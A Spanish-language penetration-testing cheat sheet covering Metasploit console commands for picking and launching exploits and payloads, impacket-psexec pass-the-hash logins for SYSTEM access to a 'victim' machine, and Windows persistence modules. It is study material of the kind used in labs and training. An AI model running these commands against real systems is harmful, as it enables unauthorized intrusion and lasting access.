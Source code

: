 ```bash 
❯ use ❮Number or path❯       # Colocamos el numero del exploit que vamos a usar
❯ back                       # Nos salimos del exploit o auxiliar que hemos elegido 
❯ options                    # Miramos las opciones del exploit y lo que debemos de configurar
❯ show advanced options      # Miramos las opciones avanzadas del exploit y lo que debemos de configurar
❯ check                      # Nos dice si el RHOST es vulnerable a ese exploit sin explotarlo, esto depende del modulo, si trae esta opcion o no
❯ unset                      # Quitas la configuracion de un parametro 
❯ set LHOST ❮IP❯             # Configuramos el IP local eth0, ens33 (Si estamos en una VPN colocar el Tun0)
❯ setg RHOSTS ❮IP❯           # Configuras de manera global el RHOSTS
❯ set RHOSTS ❮IP❯            # Configuramos el IP remoto (maquina victima)
❯ set RPORT ❮Port❯           # Configuramos el puerto remoto (maquina victima)
❯ set LPORT ❮Port❯           # Configuramos el puerto local
❯ show targets               # Miras los targets disponibles (Diferentes versiones de Windows)
❯ set target ❮Number❯        # Seleccionamos el numero de target a usar
❯ show payloads              # Miramos los payload disponibles
❯ set payload ❮Path❯         # Colocamos la ruta del Payload a usar
❯ run                        # Ejecutamos el exploit  

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u ❮ID❯           # Regresamos a la sesion 
```

## Usar Psexec

```bash 
❯ impacket-psexec WORKGROUP/omar@<IP Victima> -hashes :3ebi487y598ongyn98g56yng389yr6d6u  # Podemos hacer pass the hash y ser nt authority\system
❯ impacket-psexec WORKGROUP/omar:<Password>@❮IP Victima❯                                  # Podemos usar la passwd para entrar y ser nt authority\system
```

## Persistencia 

Persistencia = Ganar acceso a la maquina victima cada cierto tiempo por si se pierde una conexión 
```bash 
❯ search persistence                                     # Miramos todos los modulos de persistencia
❯ search persistence platform:"windows"                  # Miramos los modulos de persistencia para Windows

❯ use exploit/windows/local/persistence_service          # Usamos un modulo de persistencia
❯ show options                                           # Este modulo nos pide una sesion ya establecida con la maquina victima
❯ set SESSION <id session>                               # Colocamos el id de la sesion que ya tenemos establecida anteriormente
❯ run 
```
